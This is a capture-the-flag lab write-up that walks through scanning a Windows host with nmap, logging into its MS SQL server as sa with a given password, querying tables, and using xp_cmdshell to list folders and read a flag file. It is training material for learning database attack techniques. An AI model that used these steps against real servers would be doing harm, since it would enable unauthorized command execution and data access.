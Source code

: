 # Where Are The Reindeers?


- SQL is a relational database management system (RDBMS)
- Great [video](https://www.youtube.com/watch?v=HXV3zeQKqGY) for sql

## Exercise
- Use nmap to enumerate machine. Since we know that it's a windows machine and it won't respond to ping probes by default, we use the -Pn flag. Port 1433 has the service ms-sql-s running
>sudo nmap -sS --script=vuln -Pn 10.10.99.113
>Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-12 14:54 EST
>Pre-scan script results:
>| broadcast-avahi-dos: 
>|   Discovered hosts:
>|     224.0.0.251
>|   After NULL UDP avahi packet DoS (CVE-2011-1002).
>|_  Hosts are all up (not vulnerable).
>Nmap scan report for 10.10.99.113
>Host is up (0.20s latency).
>Not shown: 996 filtered tcp ports (no-response)
>PORT     STATE SERVICE
>22/tcp   open  ssh
>135/tcp  open  msrpc
>1433/tcp open  ms-sql-s
>|_tls-ticketbleed: ERROR: Script execution failed (use -d to debug)
>3389/tcp open  ms-wbt-server
>
>Nmap done: 1 IP address (1 host up) scanned in 80.90 seconds
- sqsh is a database shell, basic syntax is `sqsh -S server -U username -P password`. We get the prompt `1>`
>sqsh -S 10.10.99.113 -U sa -P t7uLKzddQzVjVFJp
>sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
>Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
>This is free software with ABSOLUTELY NO WARRANTY
>For more information type '\warranty'
>1> 
- Use `SELECT * FROM reindeer.dbo.names;`, and then `go`. We find Rudolph
>1> SELECT * FROM reindeer.dbo.names;
>2> go
> id          first                                    last                                     nickname                                
> ----------- ---------------------------------------- ---------------------------------------- ----------------------------------------
>           1 Dasher                                   Dasher                                   Dasher                                  
>           2 Dancer                                   Dancer                                   Dancer                                  
>           3 Prancer                                  Prancer                                  Prancer                                 
>           4 Vixen                                    Vixen                                    Vixen                                   
>           5 Comet                                    Comet                                    Comet                                   
>           6 Cupid                                    Cupid                                    Cupid                                   
>           7 Donner                                   Donder                                   Dunder                                  
>           8 Blitzen                                  Blixem                                   Blitzen                                 
>           9 Rudolph                                  Reindeer                                 Red Nosed                               
>
>(9 rows affected)
>1> 
- Use `SELECT * FROM reindeer.dbo.schedule;`, and then `go`. We find that the destination is Prague
>1> SELECT * FROM reindeer.dbo.schedule;
>2> go
> id                   date                destination                                                                      notes                                   
> -------------------- ------------------- -------------------------------------------------------------------------------- ----------------------------------------
>                 2000 Dec  5 2021 12:00AM Tokyo                                                                            NULL                                    
>                 2001 Dec  3 2021 12:00AM London                                                                           NULL                                    
>                 2002 Dec  1 2021 12:00AM New York                                                                         NULL                                    
>                 2003 Dec  2 2021 12:00AM Paris                                                                            NULL                                    
>                 2004 Dec  4 2021 12:00AM California                                                                       NULL                                    
>                 2005 Dec  7 2021 12:00AM Prague                                                                           NULL                                    
>                 2006 Dec 11 2021 12:00AM Bangkok                                                                          NULL                                    
>                 2007 Dec 10 2021 12:00AM Seoul                                                                            NULL                                    
>
>(8 rows affected)
>1> 
- Do the same for the presents table, we find 25000
- Some MS SQL servers have xp_cmdshell enabled, which lets us execute commands: `xp_cmdshell <command>`
    - Note that this is a Windows machine, so use the correct commands
- We know it's in the grinch home directory, so it must be under on of the folders in `C:\Users\grinch`. Check all the folders with `xp_cmdshell 'dir C:\Users\grinch\<folder>'`and `go` and we find that there's a file called flag.txt in the Documents folder
- Then do `xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt'`and `go` and we find `THM{YjtKeUy2qT3v5dDH}`
